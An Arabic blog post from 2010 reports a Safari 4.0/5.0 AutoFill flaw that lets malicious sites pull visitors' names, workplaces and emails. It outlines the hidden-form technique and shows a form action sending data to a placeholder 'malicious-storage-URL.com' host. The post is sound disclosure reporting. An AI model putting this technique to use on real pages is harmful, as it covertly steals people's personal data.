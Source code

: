 ```yaml
---
author: Xacker
date: 2010-07-25 12:23:35+00:00
draft: false
title: 'الكشف عن ثغرة في متصفح Safari تعرض بيانات المستخدم للسرقة  '
type: post
url: /2010/07/apple-safari-vulnerability/
categories:
- Apple
- Security
- متصفحات
tags:
- Apple
- Safari
- vulnerability
---
```


**[الكشف عن ثغرة في متصفح Safari تعرض بيانات المستخدم للسرقة](it-scoop.com/2010/07/apple-safari-vulnerability)**




تم الإعلان عن وجود خلل أمني في التصميم في متصفح Safari للإصدارين 4.0 و 5.0 يسمح للمهاجم بالحصول على بيانات شخصية خاصة بالزائر مثل (الاسم، العنوان،البريد الالكتروني، ...)




[![](http://www.it-scoop.com/wp-content/uploads/2010/07/safari_hacked.jpg)
](it-scoop.com/2010/07/apple-safari-vulnerability)


المشكلة الأمنية تظهر في حال قيام مستخدم ما بزيارة موقع خبيث، حتى لو لم يزره من قبل، ولم يدخل أي بيانات شخصية أيضاً، فيكون بمقدور الموقع كشف اسمه الكامل، مكان العمل، المدينة، الولاية (في حال كونه في الولايات المتحدة) بريده الالكتروني الشخصي!

يأتي متصفح Safari في الإصدارين 4.0 و 5.0 والذي يملك حوالي 4% من حصة السوق (أي تقريباً 83 مليون مستخدم)، بميزة على المسار (Preferences > AutoFill > AutoFill web forms) مفعّلة بشكل افتراضي.


[![](http://1.bp.blogspot.com/_JdybrokZBAk/TEUpf7TexxI/AAAAAAAABwU/oP9jGxcIz5A/s400/prefs.png  )
](http://www.it-scoop.com/wp-يوغرطة بن علي (Youghourta Benali)/it-scoop.com/2010/07/apple-safari-vulnerability)


هذه الميزة "AutoFill" تقوم بملء حقول الإدخال النصية في صفحات HTML والتي تحمل خصائص معينة مثل name, company, city, state, country, email, الخ.

<!-- more -->

مثال:

    
    <form>
    <input type="text" name="company"></input>
    <input type="text" name="email"></input></form>


يتم ملء هذه الحقول باستخدام بيانات من سجل المستخدمين الخاص في دفتر العناوين الخاص بنظام التشغيل المستخدم ومن المهم التذكير بأن هذه الخاصة تعمل حتى لو لم يقم المستخدم بإدخال مثل هذه البيانات من قبل لأنها مختلفة عن ميزة الإكمال التلقائي والتي يقوم المتصفح بتذكر بعض ما قمت بإدخاله مؤخراً في بعض حقول الإدخال النصية في المواقع التي تستخدمها.

كل ما يحتاج إلى القيام به أي موقع خبيث لاستخراج هذه المعلومات بمعاونة متصفح Safari هو أن يقوم بإنشاء نموذج (Form) إدخال كالمثال الذي ذكرناه، حتى لو بشكل مخفي، ومن ثم "محاكاة" نقرات المفاتيح ضمنها لإيهام المتصفح بأن المستخدم هو من يقوم بالنقر على لوحة المفاتيح. عندما يتم جلب البيانات والتي يتم ملؤها بشكل آلي، يصبح بإمكان المهاجم الوصول إليها من خلال إرسالها دون علم المستخدم إلى العنوان الذي يحدده في النموذج

    
    <form action="http://www.malicious-storage-URL.com"></form>


قام Robert Hansen المعروف بـ "RSnake" أحد الخبراء المعروفين في عالم الأمن (والذي بالتأكيد قرأتم شيئاً من كتاباته في موقع [http://ha.ckers.org](http://ha.ckers.org/)) باستضافة دليل [proof-of-concept](http://ha.ckers.org/weird/safari_autofill.html) على وجود المشكلة – لو كنت تود التجربة والإطلاع وتقلق بشأن بياناتك تستطيع تغييرها قبل زيارة الموقع من خلال Address Book كما تظهر الصورة

[![](http://www.it-scoop.com/wp-content/uploads/2010/07/address-book.png)
](it-scoop.com/2010/07/apple-safari-vulnerability)

وفقاً لما تذكره مدونة Jeremiah Grossman أحد الأسماء المعروفة أيضاً في عالم أمن المعلومات فإنه من حسن الحظ أن أرقام الهاتف "لسبب ما" لا يتم إظهارها بهذه الطريقة.

قمت بتجربة الدليل المنشور على موقع RSnake وفيما يلي صورة للنتائج

[![](http://www.it-scoop.com/wp-content/uploads/2010/07/autofill-poc.png)
](it-scoop.com/2010/07/apple-safari-vulnerability)

تجدر الإشارة إلى أن Jeremiah Grossman قد قام بإبلاغ Apple حول المشكل لكن لم يتلق سوى رد آلي على رسالته، و بعد عدم الحصول على أي رد على مراسلة ثانية قرر الكشف عن الثغرة ليسمع صوته بشكل أفضل :)

للإطلاع على المزيد من المعلومات حول الخبر يمكن مراجعة [التدوينة](http://jeremiahgrossman.blogspot.com/2010/07/i-know-who-your-name-where-you-work-and.html) الأصلية.
